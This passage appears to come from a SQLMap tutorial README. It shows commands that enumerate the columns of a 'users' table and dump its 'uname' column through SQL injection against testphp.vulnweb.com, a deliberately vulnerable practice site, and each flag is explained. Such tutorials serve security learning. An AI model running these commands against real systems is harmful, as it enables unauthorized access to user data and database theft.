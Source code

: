 
## **Command 3: Enumerating Columns**

### **Command Syntax**
```bash
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users --columns
```

- `-D acuart`: Specifies the target database (`acuart` in this case).
- `-T users`: Specifies the target table (`users` in this case).
- `--columns`: Instructs SQLMap to enumerate the columns within the specified table.

### **Explanation**
This command targets the `users` table within the `acuart` database and instructs SQLMap to enumerate the columns within that table.

![](Assets/Image4.png)

---

## **Command 4: Dumping Data**

### **Command Syntax**
```bash
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=2 -D acuart -T users -C uname --dump
```

